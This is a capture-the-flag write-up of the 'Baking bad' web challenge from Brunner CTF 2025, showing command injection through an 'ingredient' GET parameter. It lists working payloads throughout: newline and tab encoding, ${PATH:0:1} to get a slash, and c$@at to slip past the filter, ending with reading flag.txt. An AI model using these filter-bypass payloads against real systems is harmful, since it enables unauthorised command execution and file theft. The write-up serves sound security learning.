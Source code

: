 ```yaml
---
title: Baking bad -  Brunner CTF 2025
description: CTF write-up about an easy command injection vulnerability.
tags:
  - ctf
  - command-injection
  - web
author: TeTo
authorGithub: TeTo-O
date: "August 23, 2025 4:22 PM"
image: ""
category: web
---
```


Created time: **August 23, 2025 4:22 PM**  
Category: **web**  
Last updated time: **September 23, 2025 4:23 PM**  
Vuln type: **Command Injection**  
Status: **Done**  
CTF: **Brunner CTF**

---

## Challenge Description

**Points:** 100  
**Difficulty:** Easy  
**Author:** 0xjeppe  

This new kid on the block, Bake'n'berg, has taken over the market with some new dough that has 99.2% purity. Ours is not even 60%!

Our bakers have been trying to come up with a new P2P recipe, trying all sorts of weird ingredients to raise the purity, but it's so costly this way.

Luckily, the developers at Brunnerne have come up with a `bash -c 'recipe'` that can simulate the baking process.  
This way we can test ingredients in a simulator to find ingredients that result in a higher purity — without wasting any resources.

---

## Analysis

The page looks like a web app for checking the purity of some ingredients.

The request being made is a **GET** with a parameter `ingredient=` which then returns the purity of the corresponding ingredient.

<aside>
📌 At this point, we can conclude with 99% certainty that we are dealing with a **Command Injection** vulnerability.
</aside>

---

## Recommendations

The proposed solution will therefore be based on injecting shell commands into the backend to obtain the flag.

---

## Exploitation

First, let’s check if our assumption actually produces a result.

We try with this simple payload:

```http

GET /?ingredient=\nls
````

We get the following error response from the server, but the request seems to have gone through:

```html

Illegal character detected!s
```

At this point I realize I haven’t considered URL encoding, so I try again like this:

```http

GET /?ingredient=%0als
```

And finally get this response:

```txt

No ingredient!
index.php
quality.sh
statics
```

✅ **Injection successful**

Now I just need to check in which directory the flag is located:

```http

GET /?ingredient=%0als%09..
```

And I get this response:

```txt

No ingredient!
bakingbad
html
```

Ok… I need to go further back, but how???

I try a series of payloads:

```http

GET /?ingredient=%0als%09../..
GET /?ingredient=%0als%09..%2f..
GET /?ingredient=%0als%09..%252f..
GET /?ingredient=%0a{ls,../..}
GET /?ingredient=%0a{ls,..}|{ls,..}
```

No luck. I need to get `/` somehow without writing it explicitly:

```http

GET /?ingredient=%0a{ls,..${PATH:0:1}..${PATH:0:1}..}
```

Using `${PATH:0:1}` we obtain `/`, which repeated a few times allows us to discover the flag’s location:

```txt

No ingredient!
bin
boot
dev
etc
flag.txt # found yey 🎯
home
lib
lib.usr-is-merged
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

Now I just need to replace `ls` with `cat`, right??

```http

GET /?ingredient=%0a{cat,..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}flag.txt}
```

Response:

```html

Illegal command detected!
```

Too good to be true 🥲

After endless attempts and research I come across this filter command bypass `$@` which works like the backslash `\`:

```http

GET /?ingredient=%0a{c$@at,..${PATH:0:1}..${PATH:0:1}..${PATH:0:1}flag.txt}
```

And finally:

```txt

No ingredient!
brunner{d1d_1_f0rg37_70_b4n_s0m3_ch4rz?}
```

🎉 **Flagged** ✅